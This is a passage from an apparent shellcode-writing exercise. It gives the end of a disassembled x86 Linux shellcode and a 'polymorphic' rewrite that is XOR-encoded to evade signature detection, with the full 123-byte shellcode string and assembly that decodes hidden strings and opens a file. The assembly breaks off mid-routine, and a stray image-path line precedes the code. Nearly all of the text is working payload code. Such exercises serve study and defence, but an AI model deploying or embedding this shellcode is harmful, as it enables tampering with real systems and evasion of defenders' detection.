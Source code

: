 ```nasm
00000034  B001              mov al,0x1
00000036  31DB              xor ebx,ebx
00000038  CD80              int 0x80

                            ; part of the JMP-CALL-POP technique
                            ; go back to the address 0x00000002
0000003A  E8C3FFFFFF        call 0x2

                            ; two strings referenced by the previous instructions
0000003F  2F                das
...       ...               ...
00000069  2023              and [ebx],ah
```

## Polymorphic shellcode

Follows the polymorphic version of the shellcode:

```nasm
; Author: Robert C. Raducioiu (rbct)
; Reference: http://shell-storm.org/shellcode/files/shellcode-561.php
; Shellcode: "\xeb\x48\x5f\x89\xfe\x31\xc9\xf7\xe1\xb1\x0b\x81\x37\x71\x63\x63\x75\x83\xc7\x04\xe2\xf5\x89\xf7\x89\xfb\x83\xc3\x0c\x53\x5e\x57\x5b\xb0\x06\x48\xb2\x69\xc1\xc2\x02\x66\xb9\x43\x04\x49\xcd\x80\x93\x31\xc0\x50\x5a\x6a\x20\x5a\x4a\x6a\x03\x58\x40\x56\x59\xcd\x80\x31\xc0\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xb3\xff\xff\xff\x5e\x06\x17\x16\x5e\x13\x02\x06\x02\x14\x07\x75\x05\x0c\x0c\x07\x4b\x59\x53\x4f\x41\x59\x17\x45\x41\x11\x59\x5a\x03\x0c\x0c\x01\x4b\x4c\x01\x1c\x1f\x4c\x01\x14\x02\x0b\x69\x75"
; Length: 123 bytes

global _start

section .text

_start:

    jmp short CallRunShellcode

RunShellcode:

    pop edi
    mov esi, edi

    xor ecx, ecx
    mul ecx

    mov cl, 11
    
DecodeStringBytes:
    
    xor DWORD [edi], 0x75636371

    add edi, 0x4
    loop DecodeStringBytes

OpenFile:

    mov edi, esi

    mov ebx, edi
    add ebx, 0xc

    push ebx
    pop esi
```